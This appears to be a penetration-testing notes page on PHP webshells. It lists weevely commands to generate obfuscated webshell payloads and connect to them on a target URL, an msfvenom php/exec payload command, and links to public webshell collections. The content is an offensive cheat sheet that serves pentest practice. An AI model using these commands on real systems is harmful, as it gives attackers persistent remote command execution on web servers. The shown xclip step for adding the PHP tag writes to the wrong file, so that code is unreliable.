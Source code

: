 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - webshell
  - cross-platform
  - weevely
  - metasploit-framework
---
```

# PHP

Unlike the regular shells with network sockets (reverse shells and bind shells) that we use to receive a connection. Webshells functions way differently that it doesn't require port forwarding nor a C2 server when sending commands from the attacker. It only requires to send HTTP request to execute commands from the foothold.

## 01 - Generate a payloadvia `weevely`

Generate a payload and it's obfuscated by default.

```
$ weevely generate $(openssl rand -hex 6) <path>

$ weevely generate -obfuscator phar $(openssl rand -hex 6) payload.php

$ weevely generate -obfuscator obfusc1_php $(openssl rand -hex 6) payload.php
```

Generate a payload without obfuscation.

```
$ weevely generate -obfuscator cleartext1_php $(openssl rand -hex 6) payload.php
```

After successfully uploading on the target's system we can finally move on to post exploitation phase.

```
$ weevely terminal <URL> <password>

$ weevely terminal <URL> <password> "[commands]"
```

To reconnect the session in case when you suddenly got disconnected.

```
$ weevely session /path/to/session

$ weevely session /path/to/session "[commands]"
```

## 02 - Generate a payload via `msfvenom`

Executable webshells.

```
$ msfvenom -p php/exec cmd="<commands>" -f raw -o payload.php
```

After generating the PHP payload include the tags to ensure execution.

```
$ xclip -selection clipboard payload.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> payload.php
```

## 03 - Laudanum

You can navigate to `/usr/share/laudanum` or `/usr/share/webshells` based on what pentest OS distribution you have or you can clone it on github.

## 04 - SecurityNotFound

```
$ git clone --depth=1 https://github.com/CosasDePuma/SecurityNotFound.git /opt/webshells/SecurityNotFound/
```

---
## References

### Backlinks

- [[Random Characters]]

### Source Repositories

- [tennc: webshell](https://github.com/tennc/webshell)

- [Blackarch: Webshells](https://github.com/BlackArch/webshells)

- [JohnTroony: PHP-Webshells](https://github.com/JohnTroony/php-webshells)

- [Archive-Puma: SecurityNotFound](https://github.com/Archive-Puma/SecurityNotFound)

- [Arrexel: PHPBash](https://github.com/Arrexel/phpbash)

- [flozz: p0wny-shell](https://github.com/flozz/p0wny-shell)

- [gellin: bantam](https://github.com/gellin/bantam)

- [Description of WWolf](https://www.whitewinterwolf.com/tags/php-webshell/)

- [WWolf-PHP-Webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)